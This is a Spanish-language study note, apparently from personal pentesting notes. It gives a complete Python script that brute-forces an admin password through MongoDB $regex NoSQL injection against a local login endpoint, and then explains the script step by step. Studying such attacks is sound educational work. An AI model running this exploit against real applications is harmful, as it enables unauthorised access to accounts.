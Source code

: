 
---
```python
#!/usr/bin/env python3

from pwn import *
import requests, time, sys, signal, string

# Ctrl+C
def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

#variables globales
login_url = "http://localhost:4000/user/login"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeNoSQLI():

    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(0, 24):
        for character in characters:

            post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password, character)

            p1.status(post_data)

            headers = {'Content-Type': 'application/json'}

            r = requests.post(login_url, headers=headers, data=post_data)

            if "Logged in as user" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeNoSQLI()
```

---

# Explicación del script de fuerza bruta NoSQLi

Este script en Python automatiza un ataque de **fuerza bruta con inyección NoSQL** para extraer la contraseña de un usuario (en este caso `admin`) en una aplicación vulnerable. Ver [NoSQLi](NoSQLi.md)

---

## Dependencias

El script utiliza las siguientes librerías:

- **pwn** (`from pwn import *`): se usa para imprimir mensajes interactivos en consola (`log.progress`).
- **requests**: para realizar las peticiones HTTP.
- **time**: para introducir pausas controladas.
- **sys** y **signal**: para gestionar la salida limpia del programa al pulsar `Ctrl+C`.
- **string**: para obtener un conjunto de caracteres a probar (minúsculas, mayúsculas y dígitos).

---

## Flujo del programa

### 1. Manejo de interrupción
```python
def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
````

* Permite que al presionar `Ctrl+C` se interrumpa el ataque y el script salga de forma ordenada mostrando un mensaje.

---

### 2. Variables globales

```python
login_url = "http://localhost:4000/user/login"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits
```

* **login\_url**: URL de login donde se enviarán las peticiones maliciosas.
* **characters**: diccionario de ataque con letras mayúsculas, minúsculas y números que se usarán para probar cada posición de la contraseña.

---

### 3. Función `makeNoSQLI`

```python
def makeNoSQLI():
    password = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Password")
```

* Inicializa `password` como vacío (se irá construyendo carácter a carácter).
* `p1` muestra el progreso general de la fuerza bruta.
* `p2` va mostrando en tiempo real la contraseña descubierta.

---

### 4. Bucle de fuerza bruta

```python
for position in range(0, 24):
    for character in characters:
        post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password, character)
        p1.status(post_data)
        headers = {'Content-Type': 'application/json'}
        r = requests.post(login_url, headers=headers, data=post_data)
```

* **Primer bucle (`for position in range(0, 24)`)**: asume que la contraseña tiene una longitud máxima de 24 caracteres.
* **Segundo bucle (`for character in characters`)**: prueba cada posible carácter para la posición actual.
* **Payload inyectado**:

  ```json
  {
    "username": "admin",
    "password": { "$regex": "^<password+caracter>" }
  }
  ```

  Esto fuerza al motor NoSQL a comprobar si la contraseña de `admin` **empieza por la cadena parcial descubierta hasta ahora más el carácter actual**.

---

### 5. Validación de respuesta

```python
if "Logged in as user" in r.text:
    password += character
    p2.status(password)
    break
```

* Si la respuesta contiene el texto `Logged in as user`, significa que el patrón es correcto.
* Se añade el carácter descubierto a la variable `password`.
* Se muestra el progreso de la contraseña.
* El bucle interno se rompe (`break`) para pasar a la siguiente posición.

---

## Ejecución

```python
if __name__ == '__main__':
    makeNoSQLI()
```

* Ejecuta la función principal al correr el script directamente.

---

## Resumen del ataque

1. Se aprovecha que el campo `password` en la aplicación vulnerable se evalúa con **operadores MongoDB**.
2. Se construyen expresiones regulares con `$regex` para comprobar el prefijo correcto de la contraseña.
3. Se avanza carácter por carácter hasta reconstruir toda la contraseña de `admin`.
4. El ataque se detiene cuando se alcanza la longitud establecida (24 caracteres en este caso).

---

## Puntos clave

* Este ataque **no adivina la contraseña completa de una sola vez**, sino que la construye progresivamente.
* Se basa en **respuestas booleanas implícitas** (cuando la aplicación responde distinto según si el regex coincide o no).
* Es un ataque **costo intensivo** en número de peticiones, pero muy efectivo si la aplicación no implementa medidas de seguridad como límites de intentos, WAF o validación estricta de entradas.

---
